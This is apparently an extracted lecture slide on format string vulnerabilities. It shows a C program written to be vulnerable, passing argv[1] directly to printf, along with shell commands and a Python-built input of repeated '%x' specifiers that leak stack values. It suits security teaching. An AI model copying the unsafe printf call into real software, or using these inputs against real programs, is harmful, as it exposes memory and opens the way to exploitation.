

# Vulnerable program
format.c:
main (int argc, char *argv[]) {printf(argv[1]);}
$ gcc –o format format.c
$ ./format %x
8049ff4$
$ ./format %x,%x
8049ff4 fffff858$
$ ./format %2\$x
ffff858$
$ ./format $(python -c 'print “\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa” + “%0.8x,"*200')
. . .

parameter selector (backslash is shell escape)
why can’t we use space instead of comma here?